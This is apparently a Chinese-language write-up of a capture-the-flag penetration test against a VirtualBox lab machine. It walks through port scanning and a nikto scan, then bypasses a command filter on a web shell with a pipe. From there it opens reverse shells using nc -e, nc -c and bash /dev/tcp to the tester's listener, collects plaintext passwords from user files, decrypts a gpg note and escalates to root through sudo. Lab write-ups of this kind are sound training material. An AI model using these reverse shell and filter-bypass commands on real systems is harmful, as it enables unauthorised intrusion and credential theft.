







## 端口扫描

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999 -p- 172.20.10.2
[sudo] password for fforu:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-19 11:25 CST
Nmap scan report for 172.20.10.2
Host is up (0.040s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
25468/tcp open  unknown
MAC Address: 08:00:27:CC:DC:AE (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 7.06 seconds

┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT --script vuln -p80,25468 172.20.10.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-19 11:25 CST
Pre-scan script results:
| broadcast-avahi-dos:
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 172.20.10.2
Host is up (0.00055s latency).

PORT      STATE SERVICE
80/tcp    open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum:
|   /login.html: Possible admin folder
|_  /robots.txt: Robots file
|_http-dombased-xss: Couldn't find any DOM based XSS.
25468/tcp open  unknown
MAC Address: 08:00:27:CC:DC:AE (Oracle VirtualBox virtual NIC)
```

## web渗透

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ nikto -h http://172.20.10.2
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          172.20.10.2
+ Target Hostname:    172.20.10.2
+ Target Port:        80
+ Start Time:         2024-03-19 11:26:41 (GMT8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.25 (Debian)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /robots.txt: Entry '/passwords.html' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/lat_memo.html' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/dev_shell.php' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /: Server may leak inodes via ETags, header found with file /, inode: 591, size: 5669af30ee8f1, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ Apache/2.4.25 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: HEAD, GET, POST, OPTIONS .
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /login.html: Admin login page/section found.
+ 8108 requests: 0 error(s) and 10 item(s) reported on remote host
+ End Time:           2024-03-19 11:26:58 (GMT8) (17 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
nikto信息收集
改网站有robots.txt文件
去看一下





login.php not found 禁止外部登录

在webshell页面尝试，所有反弹shell及很多敏感操作都被过滤
但是可以用管道符绕过


nc 172.20.10.13 2333 -e sh
```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nc -lvnp 2333
[sudo] password for fforu:
listening on [any] 2333 ...
connect to [172.20.10.13] from (UNKNOWN) [172.20.10.2] 34522
```
一连就断了

找到一个可以连的
id | nc -c sh 172.20.10.13 2333

## 反弹shell

/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.116/2333 0>&1'
直接这样连也可以
但是不知道是不是wsl的问题。用wslkali的nc连接就有问题，得用powershell的nc去连接
但是都一样
成功得到反弹shell
```bash
PS D:\@TOOLS\Web-Secure\内网工具\netcat> .\nc64.exe -lvnp 2333
listening on [any] 2333 ...
connect to [192.168.1.116] from (UNKNOWN) [192.168.1.105] 40130
bash: cannot set terminal process group (476): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Milburg-High:/var/www/html$ ls
ls
WIP.jpg
about.html
contact.html
dev_shell.php
dev_shell.php.bak
dev_shell_back.png
index.html
index.html.bak
lat_memo.html
login.html
news.html
passwords.html
robots.txt
school_badge.png
www-data@Milburg-High:/var/www/html$
```

在用户Elliot用户家目录下找到一个txt
```bash
www-data@Milburg-High:/home/elliot$ nl theadminisdumb.txt
nl theadminisdumb.txt
     1  锘縏he admin is dumb,
     2  In fact everyone in the IT dept is pretty bad but I can鈥檛 blame all of them the newbies Sebastian and James are quite new to managing a server so I can forgive them for that password file they made on the server. But the admin now he鈥檚 quite something. Thinks he knows more than everyone else in the dept, he always yells at Sebastian and James now they do some dumb stuff but their new and this is just a high-school server who cares, the only people that would try and hack into this are script kiddies. His wallpaper policy also is redundant, why do we need custom wallpapers that doesn鈥檛 do anything. I have been suggesting time and time again to Bob ways we could improve the security since he 鈥渃ares鈥?about it so much but he just yells at me and says I don 鈥檛 know what i鈥檓 doing. Sebastian has noticed and I gave him some tips on better securing his account, I can鈥檛 say the same for his friend James who doesn鈥檛 care and made his password: Qwerty. To be honest James isn鈥檛 the worst bob is his stupid web shell has issues and I keep telling him what he needs to patch but he doesn鈥檛 care about what I have to say. it鈥檚 only a matter of time before it鈥檚 broken into so because of this I have changed my password to

     3  theadminisdumb

     4  I hope bob is fired after the future second breach because of his incompetence. I almost want to fix it myself but  at the same time it doesn鈥檛 affect me if they get breached, I get paid, he gets fired it鈥檚 a good time.
www-data@Milburg-High:/home/elliot$ su elliot
su elliot
Password: theadminisdumb

elliot@Milburg-High:~$ sudo -l
sudo -l
sudo: unable to resolve host Milburg-High
Matching Defaults entries for elliot on Milburg-High:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User elliot may run the following commands on Milburg-High:
    (ALL) NOPASSWD: /usr/bin/service apache2 *
    (root) NOPASSWD: /bin/systemctl start ssh
elliot@Milburg-High:~$
```
可以看到几个信息
记录一下吧
user：Sebastian，James，elliot
pass：Qwerty，theadminisdumb

## 内网渗透

在bob家目录下找线索
```bash
elliot@Milburg-High:~$ cd /home/bob/
cd /home/bob/
elliot@Milburg-High:/home/bob$ ls -la
ls -la
total 172
drwxr-xr-x 18 bob  bob   4096 Mar  8  2018 .
drwxr-xr-x  6 root root  4096 Mar  4  2018 ..
-rw-------  1 bob  bob   6403 Mar  8  2018 .bash_history
-rw-r--r--  1 bob  bob    220 Feb 21  2018 .bash_logout
-rw-r--r--  1 bob  bob   3548 Mar  5  2018 .bashrc
drwxr-xr-x  7 bob  bob   4096 Feb 21  2018 .cache
drwx------  8 bob  bob   4096 Feb 27  2018 .config
drwxr-xr-x  2 bob  bob   4096 Feb 21  2018 Desktop
-rw-r--r--  1 bob  bob     55 Feb 21  2018 .dmrc
drwxr-xr-x  3 bob  bob   4096 Mar  5  2018 Documents
drwxr-xr-x  3 bob  bob   4096 Mar  8  2018 Downloads
drwxr-xr-x  2 bob  bob   4096 Feb 21  2018 .ftp
drwx------  3 bob  bob   4096 Mar  5  2018 .gnupg
-rw-------  1 bob  bob   1980 Mar  8  2018 .ICEauthority
drwxr-xr-x  3 bob  bob   4096 Feb 21  2018 .local
drwx------  4 bob  bob   4096 Feb 21  2018 .mozilla
drwxr-xr-x  2 bob  bob   4096 Feb 21  2018 Music
drwxr-xr-x  2 bob  bob   4096 Mar  4  2018 .nano
-rw-r--r--  1 bob  bob     72 Mar  5  2018 .old_passwordfile.html
drwxr-xr-x  2 bob  bob   4096 Feb 21  2018 Pictures
-rw-r--r--  1 bob  bob    675 Feb 21  2018 .profile
drwxr-xr-x  2 bob  bob   4096 Feb 21  2018 Public
drwxr-xr-x  2 bob  bob   4096 Feb 21  2018 Templates
drwxr-xr-x  2 bob  bob   4096 Feb 21  2018 Videos
drwx------  2 bob  bob   4096 Mar  5  2018 .vnc
-rw-------  1 bob  bob    214 Mar  8  2018 .Xauthority
-rw-r--r--  1 bob  bob  25211 Mar  8  2018 .xfce4-session.verbose-log
-rw-r--r--  1 bob  bob  27563 Mar  7  2018 .xfce4-session.verbose-log.last
-rw-------  1 bob  bob   3672 Mar  8  2018 .xsession-errors
-rw-------  1 bob  bob   2866 Mar  7  2018 .xsession-errors.old
elliot@Milburg-High:/home/bob$ nl  .old_passwordfile.html
nl  .old_passwordfile.html
     1  <html>
     2  <p>
     3  jc:Qwerty
     4  seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
     5  </p>
     6  </html>

elliot@Milburg-High:/home/bob$ su seb
su seb
Password: T1tanium_Pa$$word_Hack3rs_Fear_M3

seb@Milburg-High:/home/bob$ su jc
su jc
Password: Qwerty

jc@Milburg-High:/home/bob$
```
试了一下都是可以登录的 

然后逆天的就来了
在bob用户的Document目录下找到一个加密的gpg文件
还有一个sh文件

```bash
seb@Milburg-High:/home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here$ head notes.sh
#!/bin/bash
clear
echo "-= Notes =-"
echo "Harry Potter is my faviorite"
echo "Are you the real me?"
echo "Right, I'm ordering pizza this is going nowhere"
echo "People just don't get me"
echo "Ohhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh <sea santy here>"
echo "Cucumber"
echo "Rest now your eyes are sleepy"

seb@Milburg-High:/home/bob/Documents$ gpg -d login.txt.gpg
gpg: keybox '/home/seb/.gnupg/pubring.kbx' created
gpg: AES encrypted data
gpg: encrypted with 1 passphrase
bob:b0bcat_
```

gpg文件的密码是sh文件的首字母HARPOCR    
得到bob密码
bob:b0bcat_

## 提权

```bash
seb@Milburg-High:/home/bob/Documents$ su bob
Password:
bob@Milburg-High:~/Documents$ sudo -l
sudo: unable to resolve host Milburg-High
[sudo] password for bob:
Sorry, try again.
[sudo] password for bob:
Sorry, try again.
[sudo] password for bob:
Matching Defaults entries for bob on Milburg-High:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User bob may run the following commands on Milburg-High:
    (ALL : ALL) ALL
bob@Milburg-High:~/Documents$ sudo /bin/bash
sudo: unable to resolve host Milburg-High
root@Milburg-High:/home/bob/Documents# whoami
root
```